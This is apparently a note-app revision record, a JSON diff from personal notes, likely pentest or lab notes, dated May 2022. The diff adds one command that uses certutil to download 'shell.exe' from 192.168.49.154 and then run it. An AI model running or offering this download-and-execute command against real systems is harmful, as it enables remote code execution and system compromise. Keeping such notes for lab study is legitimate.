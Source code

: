id: 123623878d9943eea759059106f22784
parent_id: 8a352da73bf146559fef2ea391a9d972
item_type: 1
item_id: 675162c6268c4652933f50981ec28893
item_updated_time: 1652968322199
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\".exe'\\\n> \"],[1,\"'certutil -urlcache -f http://192.168.49.154/shell.exe shell.exe && cmd /c shell.exe'\"],[0,\"\\\n> \\\\# Tr\"]],\"start1\":2809,\"start2\":2809,\"length1\":16,\"length2\":101}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-05-19T13:58:00.240Z
created_time: 2022-05-19T13:58:00.240Z
type_: 13